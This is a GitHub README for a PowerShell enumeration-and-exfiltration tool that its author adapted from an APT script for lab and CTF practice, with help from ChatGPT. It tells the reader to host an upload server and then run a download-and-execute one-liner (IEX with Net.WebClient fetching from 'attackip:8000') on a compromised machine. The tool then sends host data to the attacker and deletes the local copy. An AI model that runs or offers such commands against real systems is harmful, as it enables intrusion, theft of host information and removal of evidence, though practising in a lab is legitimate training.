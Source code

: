 # Simple Enumeration and Transfer
The script will execute, conduct light enumeration, write to appdata/roaming with the file name HOSTNAME-IPADDRESS-DATE_TIME , transfer it to your attack machine and then delete the original version.

Flask is needed for the upload server:
```
pipx install flask
```
## Steps
1. Host the upload_server.py
```
python3 upload_server.py
```
2. Edit the enum_transfer.ps1 with your IP:

![script](https://github.com/user-attachments/assets/4cf7fb55-9e63-4048-8c15-27a92ada7675)

3. Host enum_transfer.ps1 
```
python3 http.server 8000
```
4. On compromised machine, run the following
```
 IEX(New-Object Net.WebClient).DownloadString('http://attackip:8000/enum_transfer.ps1')
```

## Why?
I decided to attempt to modify a script used by an APT (seen below) to fit my training needs. As most of the machines in labs and CTF's aren't internet connected,
I wouldn't be able to exfil using Dropbox, so using ChatGPT I was able to craft this solution. If it's not apparent by the quality of the script, this
isn't my day job.

![APT Script](https://github.com/user-attachments/assets/10fffd46-ae48-4703-a636-a20e585176fa)
